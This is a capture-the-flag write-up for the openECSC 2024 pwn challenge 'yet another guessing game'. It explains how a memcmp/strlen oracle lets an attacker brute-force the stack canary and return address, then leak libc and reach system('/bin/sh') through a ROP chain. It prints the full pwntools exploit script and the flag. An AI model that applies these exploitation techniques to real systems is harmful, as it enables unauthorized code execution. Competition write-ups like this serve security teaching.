 ```yaml
---
title: yet another guessing game
type: writeup
date: 2024-05-10T16:37:39+03:00
description: Writeup for yet another guessing game [openecsc_round2_2024s]
author: zenbassi
tags:
- pwn
---
```

___

## Challenge Description

The title says it all. Guess the secret!

nc yetanotherguessinggame.challs.open.ecsc2024.it 38010

## Intuition

We're dealing with a very simple binary with all protections enabled:
```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled 
```
Reversing it doesn't take too long. It first opens `/dev/urandom` and reads 16 bytes of random data into a buffer. After that it runs a multi-step loop. Inside the loop, the player is asked to guess the random value, and the input is checked against the random value with `memcmp`. The player receives feedback based on the result of the `memcmp`. Regardless of the restul, the player is given the option to break out of the loop or loop again.

There are a few key observations:
1. The input from the user is received through a `read` call, which attempts to read 104 bytes into a buffer of 40 bytes. By providing more than 40 bytes of data, we cause a stack-based buffer overflow;
2. The check of equality between our value and the random value is done with `memcmp`, using the length of our buffer, calculated with `strlen`. This allows us to control how much data we're checking;
    ```c
    __n = strlen(buf_vuln);
    fd = memcmp(buf_vuln,buf_ok,__n);
    ```
3. We're allowed to run the loop again, **even if** we successfully _guess the secret_;

Using this information, we notice that a loop iteration can be used as an oracle for checking the correctness of the first byte in the secret. We can try all 255 possible values until we find the right value and then continue, using the same logic, with the next bytes. We can use this technique to guess upwards of 39 bytes from the stack, which include the CANARY and the return address of the function. As such, we bypass the CANARY, which allows us to override the return address. Furthermore, by leaking the return address, we're essentially leaking an address from the address space of the binary, which in turn enables us to find the PIE slide offset and bypass ASLR.

Leaking the PIE slide offset is necessary in order to continue the attack. We don't have a **one gadget** as part of the binary, so we also need a libc leak. We can overflow another 24 bytes past the return address, which is enough to build a small ROP chain. Using ROPgadget we find a `pop rid; ret` gadget, which we'll use to call `puts@plt` on an entry from the GOT.

```
0x0000000000001503 : pop rdi ; ret
```

By printing the address of a known function from the GOT table, we can get a libc leak, which we can then use to call `system`. But before that, we need to do some more ROPing and unfortunately there's not enough overflow material. What we can do instead is obtain the libc leak and then return back to the `game` function and redo the whole process again! After guessing the new CANARY, we continue with the second part of the attack. The first part of the payload looks like this:

```py
payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(puts_got_sliced)
payload += p64(puts_sliced)
payload += p64(game_sliced)
```

For the second part of the attack, we can just use the libc offset to find the address of the system function and use it to call `/bin/sh`. The payload looks like this. [libc.blukat](https://libc.blukat.me/) is a very useful tool for getting the relative offsets of functions or even the `/bin/sh` string from libc. Here is the second part of the payload

```py
payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(bin_sh)
payload += p64(ret) # use this to align the stack for system
payload += p64(system_sliced)
```

## Solution

Here is the full exploit:

```python
#! /usr/bin/env python3

from pwn import *

# p = process('./yet_another_guessing_game/build/yet_another_guessing_game')
# p = process(['./yet_another_guessing_game/libs/ld-linux-x86-64.so.2', \
#             './yet_another_guessing_game/build/yet_another_guessing_game'], \
#             env={"LD_PRELOAD": './yet_another_guessing_game/libs/libc.so.6'})

p = remote('yetanotherguessinggame.challs.open.ecsc2024.it', 38010)

def runda(payload, act=b'y'):
    p.recvuntil(b'et!\n')
    p.send(payload)
    re = p.recvline()
    ret = None
    if b'win' in re:
        ret = True
    else:
        ret = False
    p.recvline()
    p.send(act)
    return ret


def bruteforce():
    runda(b'A' * 57)

    buf_ok = b'A' * 16
    canary = b'A'
    for _ in range(7):
        for b in range(1, 256):
            payload = buf_ok + canary + b.to_bytes() + b'\0'
            ret = runda(payload)
            if ret:
                canary += b.to_bytes()
                break

    assert(len(canary) == 8)

    rbp = b'B' * 8
    runda(b'A' * 56 + canary + rbp)

    ret_addr = b''
    for _ in range(7):
        for b in range(1, 256):
            payload = buf_ok + canary + rbp + ret_addr + b.to_bytes() + b'\0'
            ret = runda(payload)
            if ret:
                ret_addr += b.to_bytes()
                break

    ret_addr = ret_addr[::-1]
    # print("return address: ", hex(int.from_bytes(ret_addr)))

    # payload = buf_ok + canary + rbp + ret_addr

    canary = b'\0' + canary[1:]
    runda(b'A' * 56 + canary) # repair the canary with the 0 byte

    ret_offset = 0x101483
    pie_slice = int.from_bytes(ret_addr) - ret_offset
    # print(hex(pie_slice))

    return canary, pie_slice

canary, pie_slice = bruteforce()
game_sliced = 0x0010128f + pie_slice
puts_sliced = 0x001010e0 + pie_slice
puts_got_sliced = 0x00103f88 + pie_slice
pop_rdi_sliced = 0x001503 + 0x100000 + pie_slice
ret = 0x101a + 0x100000 + pie_slice

payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(puts_got_sliced)
payload += p64(puts_sliced)
payload += p64(game_sliced)
runda(payload, b'n')
p.recvline() # skip

puts_libc = p.recvline().rstrip() + b'\0\0'
# print(puts_libc)
puts_libc_addr = u64(puts_libc)
print(hex(puts_libc_addr))

# gdb.attach(p)
# pause()

canary, pie_slice = bruteforce()
# system_sliced = puts_libc_addr - 174656
system_sliced = puts_libc_addr - 205200
# bin_sh = puts_libc_addr + 0x1217b8
bin_sh = puts_libc_addr + 1245597

payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system_sliced)

runda(payload, b'n')

# gdb.attach(p)
# pause()

p.recvline() # skip

p.interactive()
```

### Flag

`openECSC{y3t_an0th3r_br0ken_gu3ssing_g4me_<3.hidden}`
